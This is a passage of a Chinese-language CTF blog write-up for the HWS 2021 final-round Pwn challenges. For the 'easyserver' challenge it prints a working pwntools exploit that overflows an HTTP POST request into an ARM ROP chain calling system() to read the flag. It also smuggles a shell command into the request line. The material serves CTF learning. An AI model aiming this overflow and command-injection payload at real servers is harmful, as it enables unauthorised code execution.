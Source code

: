 ```yaml
---
title: HWS 2021 结营赛 Pwn
date: 2021-03-06 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...结营赛还有非常多值得探索的东西

- 结营赛题目附件：[HWS2021结营赛题目.zip](https://xuanxuanblingbling.github.io/assets/attachment/HWS2021结营赛题目.zip)

- [Yibai Zhang: HWS2021决赛WriteUp](https://www.summershrimp.com/2021/03/HWS2021%E5%86%B3%E8%B5%9BWriteUp/)
- [x1ng: HWS冬令营结营赛](https://x1ng.top/2021/03/01/HWS%E5%86%AC%E4%BB%A4%E8%90%A5%E7%BB%93%E8%90%A5%E8%B5%9B/)
- [x1ng: 侧信道与故障注入攻击](https://x1ng.top/2021/02/26/%E4%BE%A7%E4%BF%A1%E9%81%93%E4%B8%8E%E6%95%85%E9%9A%9C%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB/)

## Pwn1: easyserver

> 串口看输出

```python
from pwn import *
#context.log_level = 'debug'

p = remote('20.21.2.27', 59816)

pop_r0_pc = 0x0006099c
cmd_base = 0x008ACE4
system = 0x00019158

cmd = 'cat /tmp/207775d1ee9b9efa245fd9fb6fc03b68/flag'
payload  = 'POST ./ HTTP1.1;'+cmd+'; \r\n'
payload += 'a'*1100+p32(pop_r0_pc)+ p32(cmd_base+13) + p32(system) +cyclic(100)+'\r\n'+'\r\n'+'\r\n'
print payload

p.send(payload)
p.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/hws/pwn1.png)


## Pwn3: babyhttpd

> 串口看输出
